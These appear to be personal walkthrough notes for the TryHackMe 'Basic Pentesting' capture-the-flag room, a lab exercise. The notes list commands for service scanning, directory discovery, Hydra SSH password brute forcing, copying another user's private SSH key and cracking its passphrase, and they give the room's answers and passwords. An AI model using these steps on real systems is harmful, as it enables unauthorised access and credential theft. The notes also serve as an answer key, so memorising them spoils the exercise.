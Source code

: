 
#HashCracking  #FreeRoom #CTF 

- https://tryhackme.com/room/basicpentestingjt 
- IP: `10.10.48.234`
- topics: brute forcing, hash cracking, service enumeration & Linux enumeration

Find the services exposed by the machine

- hint: use an nmap scan to look for the open ports
- `nmap -sS 10.10.48.234`
- `nmap -sC -sV -oN <IP>`
```
22/tcp    ssh
80/tcp    http
139/tcp   netbios
445/tcp   microsoft-ds
8009/tcp  ajp13
8080/tcp  http-proxy
```

- go to `http://10.10.48.234:80` 'undergoing maintenance', check source code, try `/dev` and see `Apache/2.4.18 Ubuntu Server`


What is the name of the hidden directory on the web server(enter name without /)?

- hint: use `dirsearch`/`dirbuster` to find the hidden directories.
- AttackBox has `dirb`  which finds hidden directories and files (attack vectors), wordlists `/usr/share/dirb/wordlists/common.txt`
- `dirb http://10.10.48.234 /usr/share/wordlists/common.txt` 
```
http://10.10.48.234/development
http://10.10.48.234/index.html
http://10.10.48.234/server-status
```

- `development`

go to the `http://10.10.48.234/development` and see a `/dev.txt` and `j.txt`
- `j.txt` mentions `/etc/shadow`
- `dev.txt` mentions SMB and Apache, users J and K
  
User brute-forcing to find the username & password

What is the username? 
- hint: what about using SMB to find a username?
- SMB is Windows `445/tcp   microsoft-ds`


from video: 
`jan`
`kay`

  
What is the password?
- What about using a tool like hydra to bruteforce?
- `hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.48.234`
- `armando`
  
What service do you use to access the server(answer in abbreviation in all caps)?
- hint: what command line utility is used for remote access?
- SSH

  
What is the name of the other user you found(all lower case)?
- `kay`

If you have found another user, what can you do with this information?
- hint: apart from a password, how else can a user access a machine?
- `ssh jan@10.10.48.234` : `armando`
- `ls -la` shows `.lesshst` denied permissions
- `kay` has file but all denied permissions


 `linpeas` 
 `/home/kay/.ssh/id_rsa`
 `cat id_rsa`
 `nano kay_id_rsa` 
 paste in `chmod 600` `ssh -i kay_id_rsa kay@<IP>` 
 need passphrase, use john the ripper


What is the final password you obtain?

from video `beeswax`
`ssh -i kay_id_rsa kay@<IP> `  `beeswax`
`cat pass.bak`
`heresareallystrongpasswordthatfollowsthepasswordpolicy$$`












